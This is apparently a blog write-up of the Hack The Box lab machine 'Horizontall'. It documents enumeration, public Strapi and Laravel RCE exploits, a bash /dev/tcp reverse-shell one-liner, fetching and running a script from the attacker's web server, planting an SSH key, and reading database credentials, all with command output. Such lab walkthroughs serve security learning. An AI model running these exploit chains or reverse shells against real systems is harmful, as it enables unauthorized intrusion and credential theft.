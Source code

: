 ```yaml
---
layout: post
title: HTB Horizontall Writeup  
subtitle: Easy Box
thumbnail-img: /assets/img/horizontall.png 
tags: [HTB]
---
```


# Notes

![Explore](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/horizontall.png )

| Name | Horizontall |
| :------ |:--- |
| OS | Linux |
| RELEASE DATE | 28 Aug 2021 |
| DIFFICULTY | Easy |

# Port Scan 
IP:10.10.11.105 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Web Server
Wappalyzer
Nginx 1.14.0 -- no public exploits
Ubuntu

10.10.11.105 redirects to `http://horizontall.htb/` so lets add it to our `/etc/hosts` file.

There was not much on the webpage. If we view the source of `http://horizontall.htb/` there are two javascript files reference.  Inside one there was a hidden subdomain in http://horizontall.htb/js/app.c68eb462.js the subdomain is `api-prod.horizontall.htb` so we add it to our `/etc/hosts/` file.

## Subdomain 
This page just had a blank screen with the words "Welcome"

Next steps are to try and fuzz out some files and directories. I chose to use FFUF

`ffuf -u http://api-prod.horizontall.htb/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -c -t 200 `
-u URL
-w Word list 
-c Color output
-t Threads

The result enumerated an admin directory that lead to a login page
`admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]`

On the login page it showed that it is using the CMS "strapi" a quick google search showed that it is vulnerable to remote code execution https://www.exploit-db.com/exploits/50239

Running this script gave me some credentials and a small shell. But the shell didn't work

```
┌──(root💀kali)-[~/htb/horizontall]
└─# python3 exploit.py http://api-prod.horizontall.htb/                                                                                                                                                                                  1 ⨯
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM1NjMxMzI3LCJleHAiOjE2MzgyMjMzMjd9.D9WDXQfRn-EcHAkn15IktyH7Dam3D8WvoWi9hgoTM48


$> ls
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}


```

I found another RCE but this one was authenticated. We can use our JSON token to authenticate https://www.exploit-db.com/exploits/50238

```
┌──(root💀kali)-[~/htb/horizontall]
└─# python3 50238.py http://api-prod.horizontall.htb eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM1NjE1MjY3LCJleHAiOjE2MzgyMDcyNjd9.jPANhLjk-cyfa0v8JICiQYiCkYt7RBzodbSBHSkH1xo "id" YOURIPHERE

=====================================
CVE-2019-19609 - Strapi RCE
-------------------------------------
@David_Uton (M3n0sD0n4ld)
https://m3n0sd0n4ld.github.io/
=====================================

[+] Successful operation!!!
listening on [any] 9999 ...
connect to [YOURIPHERE] from (UNKNOWN) [10.10.11.105] 43818
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}

```

Now its time to get a reverse shell. Most of the common one-liners didn't work. So I took a bash one-liner and put it into a file called "rev.sh" then transferred it onto horziontall and executed it.

rev.sh
```
bash -i >& /dev/tcp/YOURIP/9002 0>&1 
```
bash -i >& /dev/tcp/10.10.11.14/9002 0>&1'

Set up a python webserver 
```
┌──(root💀kali)-[~/htb/horizontall]                                                                                
└─# python3 -m http.server 80                                                                                  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...                                                      
```

Use `wget` to get rev.sh onto horziontall
```
┌──(root💀kali)-[~/htb/horizontall]
└─# python3 50238.py http://api-prod.horizontall.htb eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM1NjE1MjY3LCJleHAiOjE2MzgyMDcyNjd9.jPANhLjk-cyfa0v8JICiQYiCkYt7RBzodbSBHSkH1xo "wget 10.10.14.11/rev.sh" 10.10.14.11

```

Set up a listener 
```
┌──(root💀kali)-[~/htb/horizontall]
└─# nc -lvnp 9002
```

Execute our script
```
┌──(root💀kali)-[~/htb/horizontall]                                                                                                       └─# python3 50238.py http://api-prod.horizontall.htb eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM1NjE1MjY3LCJleHAiOjE2MzgyMDcyNjd9.jPANhLjk-cyfa0v8JICiQYiCkYt7RBzodbSBHSkH1xo "bash rev.sh" 10.10.14.11
```

We get a connect back
```
┌──(root💀kali)-[~/htb/horizontall]
└─# nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.105] 38710
bash: cannot set terminal process group (1820): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$
```

## mysql
I found some mysql creds 
```
strapi@horizontall:~/myapi/config/environments/development$ cat database.json
cat database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}

```

## Webserver 8000
Running `netstat -tulnp` we can see that we have some internal ports open, one of them being port 8000. It is most likely a webserver so let's port forward it onto kali.

First we need to add our public ssh key to the box

```
$ pwd
/opt/strapi
$ mkdir .ssh
$ cd .ssh
$ touch authorized_keys
$ echo "YOUR id_rsa.pub" >> authorized_keys
```

```
┌──(root💀kali)-[~/htb/horizontall]
└─# ssh strapi@10.10.11.105 -L 8000:localhost:8000
```

Going to the web page "http://localhost:8000/" we can see that it is running Larvel v8

I was able to find an exploit for it https://github.com/nth347/CVE-2021-3129_exploit

After downloading it and running it the webserver is running as root!
```
┌──(root💀kali)-[~/htb/horizontall/CVE-2021-3129_exploit]
└─# ./exploit.py http://localhost:8000 Monolog/RCE1 "id"                                                  
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```
